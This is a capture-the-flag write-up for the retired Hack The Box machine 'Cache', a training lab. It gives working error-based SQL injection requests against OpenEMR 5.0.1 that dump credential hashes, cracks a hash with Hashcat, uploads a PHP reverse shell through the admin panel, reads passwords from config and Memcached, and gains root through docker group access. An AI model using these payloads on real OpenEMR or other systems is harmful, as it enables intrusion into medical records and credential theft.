





# Cache

This is the write-up for the box Cache that got retired at the 10th October 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.188    cache.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/cache.nmap 10.10.10.188
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page looks like a custom-developed blog about hacking where a banner displays _"Welcome to Cache.htb"_.

In the menu are some interesting links:
- Contact Us
  - Forwards to _/contactus.html_ with a form with potentially vulnerable input fields
- Author
  - Forwards to _/author.html_ with a potential username _"Ash"_
  - "Creator of Cache. Check out his other projects like Cache: HMS(Hospital Management System)"
- Login
  - Forwards to _/login.html_ with a login form



When trying username and password combinations, the login form displays separate windows to show that either the username or the password is wrong.
The username _ash_ does not display the error that the username is incorrect, so this username exists.

In the HTML source, it includes a JavaScript file _jquery/functionality.js_ that contains a static password:
```
(...)
function checkCorrectPassword(){
    var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
(...)
```

It forwards to _net.html_ with an image and a note that the page is still under construction and there is nothing more here.

On the users profile it says, that another project called _HMS (Hospital Management System)_ exists.
When the current project is called _cache.htb_, then the other project may be found on _hms.htb_, so lets put that hostname into our _/etc/hosts_ file:
```
10.10.10.188    cache.htb hms.htb
```

It forwards to another login page with the title **OpenEMR** that has a trademark symbol from 2018:



The software [OpenEMR](https://www.open-emr.org/) is an Open Source Medical Practice Management software which also supports Electronic Medical Records (EMR).

Searching for public vulnerabilities:
```
searchsploit openemr
```

There are different vulnerabilities for several versions, but the version is unknown.

### Exploiting SQL Injection Vulnerability

By searching for exploits with any search engine, this [Vulnerability Report by Open-Emr](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) describes several **SQL Injection vulnerabilities**.

In point _4.0 (Unauthenticated Information Disclosure)_ several ways to disclose information are described.
The version information can be found in the _/admin.php_ and _sql_patch.php_ files and it is **OpenEMR 5.0.1 (3)**:



The point _2.0 (Patient Portal Authentication Bypass)_ describes how to bypass login to the _Patient Portal Login_ by navigating to
the registration page.
When searching the [GitHub Repository of OpenEMR](https://github.com/openemr/openemr) for a registration page, there can be one found in _/portal/account/register.php_.

Lets send this page to a proxy tool like **Burpsuite** to exploit one of the **SQL Injection vulnerabilities**.

In point _3.2 (SQL Injection in add_edit_event_user.php)_ the report describes a SQL Injection vulnerability.
Copying the Proof Of Concept and sending an HTTP request:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x5c,VERSION())) HTTP/1.1
Host: hms.htb
```
```
Error: XPATH syntax error: '\5.7.30-0ubuntu0.18.04.1'
```



It is possible to query SQL commands with this **Error-based SQL Injection**.

Enumerating name of the database:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+database())))
```
```
openemr
```

Getting tables from the _Information_Schema_ database:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA+like+'openemr'+LIMIT+0,1)))

(...)LIMIT+1,1)))
(...)LIMIT+2,1)))
(...)LIMIT+3,1)))
(...)
```

To get through all the tables, either a script can be written or the **Burpsuite Intruder** can be used:
```
- Payload Position: (...)'openemr'+LIMIT+§0§,1)))
- Payload type: Numbers
- Payload Options:
  - From: 0
  - To: 300
  - Step: 1
```

After it is done, row 227 will show a table called _users_ and row 229 a table called _users_secure_.
```
(...)LIMIT+227,1)))

(...)LIMIT+229,1)))
```

Enumerating columns of the table _users_secure_:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+COLUMN_NAME+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME+like+'users_secure'+LIMIT+0,1)))
--> id

(...)LIMIT+1,1)))
--> username

(...)LIMIT+2,1)))
--> password

(...)LIMIT+3,1)))
--> salt

(...)
```

Enumerating the values from the columns _username_ and _password_:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+username+FROM+users_secure+LIMIT+0,1)))
--> openemr_admin
```

As a password hash is often long and the characters in the response are limited to a certain amount, the _password_ has to be obtained in two parts:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+SUBSTRING(password,1,30)+FROM+users_secure+LIMIT+0,1)))
--> $2a$05$l2sTLIG6GTBeyBf7TAKL6.t

GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+SUBSTRING(password,31,60)+FROM+users_secure+LIMIT+0,1)))
--> tEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

Credentials of _openemr_admin_:
```
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

The credentials are encrypted and have to be cracked with **Hashcat**:
```
hashcat --user -m 3200 openemr_admin.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for _openemr_admin_ is:
> xxxxxx

### Exploiting OpenEMR with Authentication

The admin interface in **OpenEMR** has different functionalities and one of them is to upload files:
```
Administration --> Files
```

I will upload the PHP reverse shell script _php-reverse-shell.php_ from the **Laudanum** scripts.



After clicking _Save_, the file can be found in _/sites/default/images/php-reverse-shell.php_.
When clicking on it, it will execute and the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

There are some interesting services running on localhost:
```
ss -lnpt

127.0.0.1:3306
127.0.0.1:11211
```

Port 3306 is a SQL database and port 11211 is usually for **Memcached**.

The file _/var/www/hms.htb/public_html/sites/default/sqlconf.php_ has a password for the SQL database:
```
$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = '3open6emr9';
$dbase  = 'openemr';
```

We don't have to enumerate the database as the important data was dumped before, but the password may be useful later.
The password found earlier for the _cache.htb_ login works to switch users to _ash_:
```
su ash -
```

It looks like that the path to escalate privileges lays in **Memcached**.

Connecting to the **Memcached** service on port 11211:
```
telnet localhost 11211
```

Enumerating user information:
```
> get user
VALUE user 0 5
luffy

> get passwd
VALUE passwd 0 9
0n3_p1ec3
```

The user _luffy_ does exist on the box and the password works when trying to login via SSH:
```
ssh luffy@10.10.10.188
```

### Privilege Escalation to root

When checking the `groups` of _luffy_, it shows that the user is in the group _docker_ and that means that the user has permissions to run **Docker containers**.
The `docker` command has an entry in [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) which makes it possible to start a shell.

Checking the installed images:
```
docker images
```

There is one image called _ubuntu_, which can be used to start a shell and mount the root file system to _/mnt_ in the container:
```
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

This starts a shell in the container as root and the file system of the host is mounted there to modify and read any file!
